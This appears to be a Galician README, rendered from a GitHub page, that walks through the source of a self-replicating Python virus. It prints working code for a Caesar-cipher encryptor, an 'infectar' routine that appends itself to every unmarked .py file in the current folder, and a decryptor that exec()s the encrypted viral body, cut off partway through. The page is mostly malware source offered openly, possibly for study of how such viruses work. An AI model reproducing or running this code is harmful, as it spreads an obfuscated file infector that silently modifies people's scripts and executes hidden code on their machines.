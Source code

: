- Función **cifra**: esta función cifra un texto co cifrado Cesar.
```python
def cifra(texto, clave):
    texto_cifrado = ""
    for caracter in texto:
        if caracter.isupper():
            texto_cifrado += chr((ord(caracter) + clave - 65) % 26 + 65)
        elif caracter.islower():
            texto_cifrado += chr((ord(caracter) + clave - 97) % 26 + 97)
        else:
            texto_cifrado += caracter
    return texto_cifrado
```

Nota: as funcións de cifrado e descifrado, só modificarán as maiúsculas e minúsculas. O resto de caracteres déixanos 
igual.

- Función **infectar**: esta función busca no cartafol dende onde se executa o virus arquivos que teñan a extensión .py 
  para infectalos. Se existe algún arquivo que teña esta extensión, abrirase o arquivo e comprobarase se contén a cadea 
  de caracteres “del calcula_clave”, se non a ten, faranse as seguintes accións:
  - Cifraranse as funcións “cifra”, “infectar”, “payload” e “executa”.
  - Engadiranse as funcións calcula_clave e descifra ao arquivo a infectar.
  - Crearase un código para descifrar o texto cifrado.
  - Engadiranse o código cifrado e o código para descifralo ao final do arquivo a infectar.
```python
def infectar(virus):
    import os
    for arquivo in os.listdir("."):
        if arquivo.endswith(".py"):
            script = open(arquivo, "r+")
            texto_script = script.read()
            if "def calcula_clave" not in texto_script:
                parte_en_claro = virus[:541]
                parte_a_cifrar = virus[541:]
                clave = calcula_clave(texto_script)
                parte_crifrada = cifra(parte_a_cifrar, clave)
                script.write(parte_en_claro)
                descrifrador = "import sys" + chr(10) + "portador = open(sys.argv[0], " + chr(34) + "r" + chr(34) + ")" + chr(10) + "texto_portador = portador.read()" + chr(10) + "portador.close()" + chr(10) + "parte_sin_cifrar = texto_portador[texto_portador.find(" + chr(34) + "def calcula_clave" + chr(34) + "):texto_portador.find(" + chr(34) + "def calcula_clave" + chr(34) + ")+541]" + chr(10) + "clave = calcula_clave(texto_portador)" + chr(10) + "texto_descifrado = descifra(" + chr(34) + chr(34) + chr(34) + parte_crifrada + chr(34) + chr(34) + chr(34) + ", clave)" + chr(10) + "exec(texto_descifrado)" + chr(10) + "executa(parte_sin_cifrar + texto_descifrado)"
                script.write(descrifrador)
            script.close()
```

- Código da variable **descifrador**: este é o código que se utiliza para descifrar o contido cifrado do virus despois 
  da primeira infección.
```python
import sys
portador = open(sys.argv[0], "r")
texto_portador = portador.read()
portador.close()
parte_sin_cifrar = texto_portador[texto_portador.find("def calcula_clave"):texto_portador.find("def calcula_clave")+541]
clave = calcula_clave(texto_portador)
texto_descifrado = descifra("""
wxy vbykt(mxqmh, vetox):
    mxqmh_vbyktwh = ""
    yhk vtktvmxk bg mxqmh:
```